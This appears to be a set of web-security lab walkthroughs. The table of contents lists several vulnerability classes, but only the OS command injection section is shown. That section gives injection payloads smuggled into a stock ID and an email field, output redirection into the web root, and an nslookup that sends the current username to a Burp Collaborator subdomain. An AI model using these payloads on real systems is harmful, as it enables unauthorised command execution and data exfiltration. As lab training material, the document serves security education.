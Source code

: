 # Table of Contents

- [OS Command Injection](#OS-Command-Injection)
- [Information disclosure](#Information-disclosure)
- [Directory Traversal](#Directory-Traversal)
- [SQL Injection](#SQL-Injection)
- [Cross-site scripting](#XSS)
- [Server side template injection](#SSTI)
- [Business logic vulnerabilities](#Business-logic-vulnerabilities)
- [Access control vulnerabilities](#Access-control-vulnerabilities)
- [Cross site request forgery](#CSRF)

# OS Command Injection

## OS command injection, simple case
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the storeID parameter, giving it the value 1|whoami.
3. Observe that the response contains the name of the current user.

## Blind OS command injection with time delays
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
    `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return.

## Blind OS command injection with output redirection
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
    `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
5. Observe that the response contains the output from the injected command.

## Blind OS command injection with out-of-band interaction
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

## Blind OS command injection with out-of-band data exfiltration
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    `email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`
5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.
